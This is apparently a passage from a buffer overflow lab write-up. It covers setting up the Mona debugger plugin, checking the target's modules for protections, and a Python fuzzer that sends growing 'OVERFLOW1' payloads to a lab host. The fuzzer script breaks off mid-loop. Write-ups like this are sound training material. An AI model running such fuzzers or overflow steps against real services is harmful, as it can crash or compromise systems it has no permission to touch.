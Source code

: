 ### Mona Config

We'll be using Mona for much of this challenge, so it's worth setting the working directory as advised:

![bofprep-mona-workingdir](/assets/images/2021-03-08-22-25-36.png)

We know this challenge is based on a vulnerable exe, where we are doing a simple stack based buffer overflow to exploit it. We can check to see if any protections are in place using Mona:

```text
!mona modules
```

![bofprep-modules](/assets/images/2021-03-10-22-00-59.png)

We can see ocsp.exe and essfunc.dll both say False against Rebase, SafeSEH, ASLR etc. If they had True against any our job would be much harder!

### Python Fuzzer Script

Knowing this will be a fairly simple challenge we may as well use the supplied Python code and create fuzzer.py with it:

```text
import socket, time, sys

ip = "192.168.0.11"
port = 1337
timeout = 5

buffer = []  
counter = 100    
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
```